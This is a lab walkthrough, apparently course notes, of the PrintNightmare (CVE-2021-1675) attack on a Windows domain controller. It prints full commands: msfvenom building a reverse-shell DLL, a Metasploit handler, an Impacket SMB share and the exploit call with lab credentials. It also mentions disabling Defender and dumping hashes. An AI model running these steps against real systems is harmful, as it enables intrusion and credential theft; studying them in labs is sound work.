



# PrintNightmare (CVE-2021-1675) Walkthrough

**PrintNightmare** is probably one of the biggest bugs in 2021. It is a post
compromise attack that takes advantage of the **printer spooler**, which runs
with system privileges and thus opens up a way to remote code execution.

There are often severe vulnerabilities that do not get patched by everyone, such
as EternalBlue, and TCM expects that PrintNightmare will be relevant for several
years, too. The attack requires authentication with some user account, here
`fcastle`. There is a similar attack called **PrintSpoofer**, see the link
below.

There is a [github repo](https://github.com/calebstewart/CVE-2021-1675) with
code for **Local Privilege Escalation (LPE)**, but we will use code from another
[github repo](https://github.com/cube0x0/CVE-2021-1675) because it uses **Remote
Code Execution (RCE)**.

The github repo contains information on how to scan for the vulnerability as
follows. If there is an output (here the two lines starting with `Protocol:`),
the domain controller is vulnerable to the PrintNightmare attack. There is also
an instruction how to mitigate against attack.

```
┌──(kali㉿kali)-[~]
└─$ rpcdump.py @10.0.2.15 | egrep 'MS-RPRN|MS-PAR'
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Protocol: [MS-RPRN]: Print System Remote Protocol
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```

TCM has simply downloaded the Python file from the repo rather than actually
running `git clone`. The github repo contains a template how to run the script:
`./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'`.
To do this, we need to create a malicious DLL with `msfvenom` and host it
through SMB.

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.5 LPORT=5555 -f dll > shell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
```

We also need to run `msfconsole` to get the `Meterpreter` session. We therefore
use the module `multi/handler` and set the same payload that we have chosen for
the malicious DLL.

```
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Open an interactive Ruby terminal with irb


                                   .,,.                  .
                                .\$$$$$L..,,==aaccaacc%#s$b.       d8,    d8P
                     d8P        #$$$$$$$$$$$$$$$$$$$$$$$$$$$b.    `BP  d888888p
                  d888888P      '7$$$$\""""''^^`` .7$$$|D*"'```         ?88'
  d8bd8b.d8p d8888b ?88' d888b8b            _.os#$|8*"`   d8P       ?8b  88P
  88P`?P'?P d8b_,dP 88P d8P' ?88       .oaS###S*"`       d8P d8888b $whi?88b 88b
 d88  d8 ?8 88b     88b 88b  ,88b .osS$$$$*" ?88,.d88b, d88 d8P' ?88 88P `?8b
d88' d88b 8b`?8888P'`?8b`?88P'.aS$$$$Q*"`    `?88'  ?88 ?88 88b  d88 d88
                          .a#$$$$$$"`          88b  d8P  88b`?8888P'
                       ,s$$$$$$$"`             888888P'   88n      _.,,,ass;:
                    .a$$$$$$$P`               d88P'    .,.ass%#S$$$$$$$$$$$$$$'
                 .a$###$$$P`           _.,,-aqsc#SS$$$$$$$$$$$$$$$$$$$$$$$$$$'
              ,a$$###$$P`  _.,-ass#S$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$####SSSS'
           .a$$$$$$$$$$SSS$$$$$$$$$$$$$$$$$$$$$$$$$$$$SS##==--""''^^/$$$$$$'
_______________________________________________________________   ,&$$$$$$'_____
                                                                 ll&&$$$$'
                                                              .;;lll&&&&'
                                                            ...;;lllll&'
                                                          ......;;;llll;;;....
                                                           ` ......;;;;... .  .


       =[ metasploit v6.4.69-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 431 post       ]
+ -- --=[ 1672 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.0.2.5
lhost => 10.0.2.5
msf6 exploit(multi/handler) > set lport 5555
lport => 5555
msf6 exploit(multi/handler) > options

Payload options (windows/x64/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.5         yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.0.2.5:5555
```

We can use a Python script from the `Impacket` package to generate an SMB share
on our Kali machine, starting from the folder where the malicious DLL that we
have created is stored. As it turned out later in the video, the `smbserver.py`
script needs to be run with the switch `-smb2support`, otherwise there will be
an error message.

```
┌──(kali㉿kali)-[~]
└─$ smbserver.py share 'pwd' -smb2support
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Once this is all set up, we can again follow the examples in the github repo to
execute the attack:

```
┌──(kali㉿kali)-[~]
└─$ python3 CVE-2021-1675.py MARVEL.local/fcastle:Password1@10.0.2.15 '\\10.0.2.5\share\shell.dll'
[*] Connecting to ncacn_np:10.0.2.15[\PIPE\spoolss]
[+] Bind OK
[-] Failed to enumerate remote pDriverPath
RPRN SessionError: unknown error code: 0x8001011b
```

Even though the initial vulnerability scan had indicated that the domain
controller was vulnerable to the `PrintNightmare` attack, the error message
seems to indicate that the Windows Server has been patched by default:





In TCM's video, `Windows Defender` had to be switched off to make the exploit
work. Even before that, one could see that the domain controller was sending
hashed to get access to the SMB share. With `Defender` switched off, the
exploit was successful, and TCM got a `Meterpreter` shell on the domain
controller with admin rights, as checked with a `getuid` command and a
`hashdump` command in `Meterpreter`.



At the end of the video, TCM explains that one needed to obfuscate the
malicious DLL since `Windows Antivirus` otherwise detected it. Bypassing
antivirus is outside the scope of this course and was therefore not covered.
This can be done as an exercise, or one could use another tool than
`metasploit`.


## Further reading

* [Kritische Schwachstelle in Druckerspooler auf Microsoft Systemen (BSI)](https://www.bsi.bund.de/SharedDocs/Cybersicherheitswarnungen/DE/2021/2021-233732-1032.pdf?__blob=publicationFile&v=3)
* [PrintNightmare – Schwachstelle im Druckerspooler von Windows](https://www.kaspersky.de/blog/printnightmare-vulnerability/27047/)
* [How to exploit the PrintNightmare CVE-2021-34527](https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/)
* [PrintNightmare (Windows Print Spooler
  RCE/LPE)](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printnightmare.html#printnightmare-windows-print-spooler-rcelpe)
* [A Practical Guide to PrintNightmare in 2024](https://itm4n.github.io/printnightmare-exploitation/)
* [Understanding and Mitigating CVE-2025-49722: Windows Print Spooler Denial-of-Service Vulnerability](https://windowsforum.com/threads/understanding-and-mitigating-cve-2025-49722-windows-print-spooler-denial-of-service-vulnerability.372845/)
* [PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server
  2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)


<!--
span style="color:green;font-weight:700;font-size:20px">
markdown color font styles
</span
-->
